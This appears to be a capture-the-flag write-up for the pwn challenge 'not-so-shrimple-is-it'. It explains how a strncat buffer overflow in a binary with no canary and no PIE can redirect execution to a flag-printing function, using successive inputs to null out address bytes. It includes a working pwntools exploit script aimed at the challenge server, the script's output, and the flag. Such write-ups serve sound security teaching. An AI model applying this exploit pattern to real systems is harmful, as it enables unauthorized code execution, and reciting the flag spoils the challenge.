

## pwn/not-so-shrimple-is-it

Peel back the shell, unless you eat shrimp with the shell.  
`nc chal.competitivecyber.club 8884`

**Given:** `shrimple`

## Analysis

The given file `shrimple` is a 64-bit ELF executable.
```bash
ramenhost@ctf$ checksec --file shrimple 
[*] '/home/ramenhost/Git/ctf-writeups/patriot-ctf-2024/pwn/not-so-shrimple-is-it/shrimple'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

The Ghidra decompilation of the `main` function is shown below.


The code also has a function named `shrimp()` that will print the flag, but it is not invoked in the `main` function.

## Solution

The `strncat()` call in `main` function results in a buffer overflow. By exploiting this, we can overwrite the return address of the `main` function with the address of the `shrimp` function to print the flag. The ELF has no canary and no PIE, so we can easily exploit the buffer overflow vulnerability.

However, there is a catch. The `strncat()` stops copying when it encounters a null byte. The address of the `shrimp` function is only 3 bytes (remaining 5 \x00). The existing value of return address is to `__libc_start_main` which has 6 non-null bytes.

For example,
```
Existing return address: 0x7fbaee4013ef
shrimp address: 0x401282
After overwriting: 0x7fba00401282
```
In above example, `strncat` stopped after coping 3 bytes and added one NULL terminator.
But we need to zeroize two more bytes. Luckily, we can send input three times, so we use first two times to zeroize the MSB bytes.

### exploit.py
```python
from pwn import *

context.log_level = 'info'
context.terminal = ['tmux', 'splitw', '-v']
context.arch = 'x86_64'

target = './shrimple'
target_elf = ELF(target)

# io = process(target)
# io = gdb.debug(target, gdbscript='''
# break *0x4013ef
# continue
# ''')
io = remote('chal.competitivecyber.club', 8884)

io.recvrepeat(1)
io.sendline(cyclic(42)) # write 0x00 to 6th byte
io.sendline(cyclic(41)) # write 0x00 to 5th byte
# Address of shrimp function adjusted for stack alignment
io.sendline(cyclic(38) + p64(0x0401282)) 

info(io.recvuntil(b'}'))
io.close()
```

## Flag
```bash
ramenhost@ctf:~/Git/ctf-writeups/patriot-ctf-2024/pwn/not-so-shrimple-is-it$ python3 exploit.py 
[+] Opening connection to chal.competitivecyber.club on port 8884: Done
[*] Adding shrimp...
    You shrimped the following: so easy and so shrimple, have fun!aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaaka
    
    Remember to just keep it shrimple!
    >> Adding shrimp...
    You shrimped the following: so easy and so shrimple, have fun!aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaak
    
    Remember to just keep it shrimple!
    >> Adding shrimp...
    You shrimped the following: so easy and so shrimple, have fun!aaaabaaacaaadaaaeaaafaaagaaahaaaiaaaja_\x12@
    Thats it, hope you did something cool...
    pctf{ret_2_shr1mp_90cbba754f}
[*] Closed connection to chal.competitivecyber.club port 8884
```